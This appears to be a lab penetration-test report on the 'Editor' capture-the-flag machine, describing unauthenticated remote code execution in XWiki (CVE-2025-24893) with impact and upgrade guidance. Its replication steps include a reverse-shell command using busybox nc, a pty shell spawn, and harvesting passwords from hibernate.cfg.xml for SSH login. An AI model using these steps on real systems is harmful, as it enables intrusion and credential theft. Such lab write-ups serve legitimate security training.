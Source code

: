 

Remediation— Remote Code Execution

## Description

A vulnerability in Editor.htb allows unauthenticated remote code execution (RCE). An unauthenticated attacker can execute code on the server remotely, potentially gaining control of the affected application host.

## Impact

High — Successful exploitation can lead to full compromise of the application and access to sensitive data on the host. This violates the confidentiality, integrity, and availability (CIA) of affected systems and may allow attacker persistence, data exfiltration, or further lateral movement.

## Likelihood

High — Exploitation requires no authentication and can be performed remotely, increasing the probability of active exploitation.


## Remediation 
Upgrade XWiki to 15.10.11, 16.4.1, or any later release from the vendor. This is the official fix for CVE-2025-24893.

## Evidence 
### Replication steps 

 <img src="images/editor_version.png" class="editors" alt="editor">

 From the login page a version is clearly displayed. Research shows vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 pOc and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc terminal will start rce 
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 <img src="images/oliver_found.png" class="editors" alt="user found">









 7. Google files on server and find hibernate.cfg.xml which stores XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  `ssh oliver@IP














